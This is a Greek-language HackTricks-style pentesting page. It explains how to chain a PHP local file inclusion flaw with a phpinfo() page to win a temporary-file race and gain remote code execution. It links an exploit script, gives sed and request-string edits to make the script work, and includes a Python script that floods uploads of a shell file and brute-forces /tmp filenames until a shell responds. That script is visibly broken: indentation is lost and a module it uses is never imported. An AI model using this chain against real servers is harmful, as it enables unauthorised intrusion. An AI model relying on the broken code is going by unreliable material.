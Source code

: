 {{#include ../../banners/hacktricks-training.md}}

<figure><img src="/images/pentest-tools.svg" alt=""><figcaption></figcaption></figure>

**Αποκτήστε την προοπτική ενός χάκερ για τις εφαρμογές σας, το δίκτυο και το cloud**

**Βρείτε και αναφέρετε κρίσιμες, εκμεταλλεύσιμες ευπάθειες με πραγματικό επιχειρηματικό αντίκτυπο.** Χρησιμοποιήστε τα 20+ προσαρμοσμένα εργαλεία μας για να χαρτογραφήσετε την επιφάνεια επίθεσης, να βρείτε ζητήματα ασφαλείας που σας επιτρέπουν να κλιμακώσετε τα δικαιώματα και να χρησιμοποιήσετε αυτοματοποιημένες εκμεταλλεύσεις για να συλλέξετε βασικά αποδεικτικά στοιχεία, μετατρέποντας τη σκληρή δουλειά σας σε πειστικές αναφορές.

{% embed url="https://pentest-tools.com/?utm_term=jul2024&utm_medium=link&utm_source=hacktricks&utm_campaign=spons" %}

Για να εκμεταλλευτείτε αυτήν την ευπάθεια χρειάζεστε: **Μια ευπάθεια LFI, μια σελίδα όπου εμφανίζεται το phpinfo(), "file_uploads = on" και ο διακομιστής πρέπει να μπορεί να γράψει στον κατάλογο "/tmp".**

[https://www.insomniasec.com/downloads/publications/phpinfolfi.py](https://www.insomniasec.com/downloads/publications/phpinfolfi.py)

**Tutorial HTB**: [https://www.youtube.com/watch?v=rs4zEwONzzk\&t=600s](https://www.youtube.com/watch?v=rs4zEwONzzk&t=600s)

Πρέπει να διορθώσετε την εκμετάλλευση (αλλάξτε **=>** σε **=>**). Για να το κάνετε αυτό μπορείτε να κάνετε:
```
sed -i 's/\[tmp_name\] \=>/\[tmp_name\] =\&gt/g' phpinfolfi.py
```
Πρέπει να αλλάξετε επίσης το **payload** στην αρχή της εκμετάλλευσης (για παράδειγμα, για ένα php-rev-shell), το **REQ1** (αυτό θα πρέπει να δείχνει στη σελίδα phpinfo και θα πρέπει να έχει το padding συμπεριλαμβανομένο, δηλαδή: _REQ1="""POST /install.php?mode=phpinfo\&a="""+padding+""" HTTP/1.1_), και **LFIREQ** (αυτό θα πρέπει να δείχνει στην ευπάθεια LFI, δηλαδή: _LFIREQ="""GET /info?page=%s%%00 HTTP/1.1\r --_ Ελέγξτε το διπλό "%" κατά την εκμετάλλευση του null char)

{% file src="../../images/LFI-With-PHPInfo-Assistance.pdf" %}

### Θεωρία

Εάν επιτρέπονται οι αναφορές σε PHP και προσπαθήσετε να ανεβάσετε ένα αρχείο, αυτό το αρχείο αποθηκεύεται σε έναν προσωρινό φάκελο μέχρι να ολοκληρωθεί η επεξεργασία του αιτήματος από τον διακομιστή, στη συνέχεια αυτό το προσωρινό αρχείο διαγράφεται.

Έτσι, αν έχετε βρει μια ευπάθεια LFI στον διακομιστή ιστού μπορείτε να προσπαθήσετε να μαντέψετε το όνομα του προσωρινού αρχείου που δημιουργήθηκε και να εκμεταλλευτείτε μια RCE αποκτώντας πρόσβαση στο προσωρινό αρχείο πριν διαγραφεί.

Στα **Windows** τα αρχεία αποθηκεύονται συνήθως στο **C:\Windows\temp\php**

Στο **linux** το όνομα του αρχείου συνήθως είναι **τυχαίο** και βρίσκεται στο **/tmp**. Δεδομένου ότι το όνομα είναι τυχαίο, είναι απαραίτητο να **εξάγετε από κάπου το όνομα του προσωρινού αρχείου** και να αποκτήσετε πρόσβαση σε αυτό πριν διαγραφεί. Αυτό μπορεί να γίνει διαβάζοντας την τιμή της **μεταβλητής $\_FILES** μέσα στο περιεχόμενο της συνάρτησης "**phpconfig()**".

**phpinfo()**

**PHP** χρησιμοποιεί ένα buffer **4096B** και όταν είναι **γεμάτο**, αποστέλλεται **στον πελάτη**. Στη συνέχεια, ο πελάτης μπορεί να **στείλει** **πολλές μεγάλες αιτήσεις** (χρησιμοποιώντας μεγάλες κεφαλίδες) **ανεβάζοντας ένα php** reverse **shell**, περιμένει να **επιστραφεί το πρώτο μέρος του phpinfo()** (όπου είναι το όνομα του προσωρινού αρχείου) και προσπαθεί να **αποκτήσει πρόσβαση στο προσωρινό αρχείο** πριν ο διακομιστής php διαγράψει το αρχείο εκμεταλλευόμενος μια ευπάθεια LFI.

**Python script για να προσπαθήσετε να σπάσετε το όνομα (αν το μήκος = 6)**
```python
import itertools
import requests
import sys

print('[+] Trying to win the race')
f = {'file': open('shell.php', 'rb')}
for _ in range(4096 * 4096):
requests.post('http://target.com/index.php?c=index.php', f)


print('[+] Bruteforcing the inclusion')
for fname in itertools.combinations(string.ascii_letters + string.digits, 6):
url = 'http://target.com/index.php?c=/tmp/php' + fname
r = requests.get(url)
if 'load average' in r.text:  # <?php echo system('uptime');
print('[+] We have got a shell: ' + url)
sys.exit(0)

print('[x] Something went wrong, please try again')
```
<figure><img src="/images/pentest-tools.svg" alt=""><figcaption></figcaption></figure>

**Αποκτήστε την προοπτική ενός χάκερ για τις εφαρμογές ιστού, το δίκτυο και το cloud σας**

**Βρείτε και αναφέρετε κρίσιμες, εκμεταλλεύσιμες ευπάθειες με πραγματικό επιχειρηματικό αντίκτυπο.** Χρησιμοποιήστε τα 20+ προσαρμοσμένα εργαλεία μας για να χαρτογραφήσετε την επιφάνεια επίθεσης, να βρείτε ζητήματα ασφάλειας που σας επιτρέπουν να κλιμακώσετε τα δικαιώματα και να χρησιμοποιήσετε αυτοματοποιημένα exploits για να συλλέξετε βασικά αποδεικτικά στοιχεία, μετατρέποντας τη σκληρή σας δουλειά σε πειστικές αναφορές.

{% embed url="https://pentest-tools.com/?utm_term=jul2024&utm_medium=link&utm_source=hacktricks&utm_campaign=spons" %}

{{#include ../../banners/hacktricks-training.md}}
